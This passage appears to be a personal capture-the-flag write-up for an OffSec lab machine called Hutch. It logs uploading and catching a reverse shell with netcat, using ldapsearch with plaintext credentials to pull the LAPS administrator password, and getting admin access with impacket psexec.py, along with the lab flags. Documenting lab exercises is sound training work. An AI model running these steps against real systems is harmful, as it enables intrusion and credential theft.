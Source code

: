 ![[Pasted image 20241027181332.png]]
- Returned to `Cadaver` login and ran `/media/sf_Kali-Shared/Boxes/PG/Windows/Hutch/revshell2.exe` to upload to web server
![[Pasted image 20241027181541.png]]
- Started netcat listener on port `4444`, returned to web browser to execute `C:\inetpub\wwwroot\revshell2.exe` command, and caught reverse shell
![[Pasted image 20241028194223.png]]
- Ran `type C:\Users\fmcsorley\local.txt` to print `22d03ac1b79145247627d9e068667178`
![[Pasted image 20241028202217.png]]
---
# Privilege Escalation
## Psexe.py
- Ran `ldapsearch -x -H 'ldap://192.168.182.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd` to find administrator password `administrator:c)!ybbH7AN58p1`
![[Pasted image 20241028194935.png]]
- Ran `/usr/share/doc/python3-impacket/examples/psexec.py hutch.offsec/administrator:'c)!ybbH7AN58p1'@192.168.182.122` to login with psexec.py
![[Pasted image 20241028201233.png]]
- Ran `type C:\Users\Administrator\Desktop\proof.txt` to print `efd8e0e27039c18caf863001955304b3`
![[Pasted image 20241028202150.png]]
---
# Trophy & Loot
`local.txt` = `22d03ac1b79145247627d9e068667178`
`proof.txt` = `efd8e0e27039c18caf863001955304b3`